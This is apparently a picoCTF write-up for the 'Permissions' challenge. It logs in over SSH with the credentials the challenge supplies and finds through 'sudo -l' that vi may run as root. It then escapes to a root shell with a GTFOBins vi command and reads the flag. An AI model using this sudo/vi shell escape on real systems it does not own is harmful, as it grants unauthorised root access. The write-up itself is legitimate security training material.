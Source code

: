 # Permissions
## Description
Can you read files in the root file?
The system admin has provisioned an account for you on the main server:
`ssh -p 52298 picoplayer@saturn.picoctf.net`
Password: `8nVVw6hmD7`
Can you login and read the root file?

## Solution
Lets start by logging into the server:
```bash
$ ssh -p 52298 picoplayer@saturn.picoctf.net
$ Password: 8nVVw6hmD7
```

Now that we are logged in, lets see if we can change into the root directory:
```bash
$ cd /root
```

Nope, we get an error. Lets see which permissions we have:
```bash
$ sudp -l
Matching Defaults entries for picoplayer on challenge:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User picoplayer may run the following commands on challenge:
    (ALL) /usr/bin/vi
```

Interesting, we can run the `vi` command everywhere. Let's use this to spawn a shell! Using GTFobins, the following command can be used:
```bash
$ sudo vi -c ':!/bin/sh' /dev/null
```
And we are root!

Now that we are root, lets see the contents of the root directory:
```bash
$ cd /root
$ ls -la 
total 12
drwx------ 1 root root   23 Mar 16 02:29 .
drwxr-xr-x 1 root root   51 Apr 14 14:34 ..
-rw-r--r-- 1 root root 3106 Dec  5  2019 .bashrc
-rw-r--r-- 1 root root   35 Mar 16 02:29 .flag.txt
-rw-r--r-- 1 root root  161 Dec  5  2019 .profile
```

We can see the a flag! Lets read it:
```bash
$ cat .flag.txt
picoCTF{[REDACTED]}
```
Just like that, we got the flag!
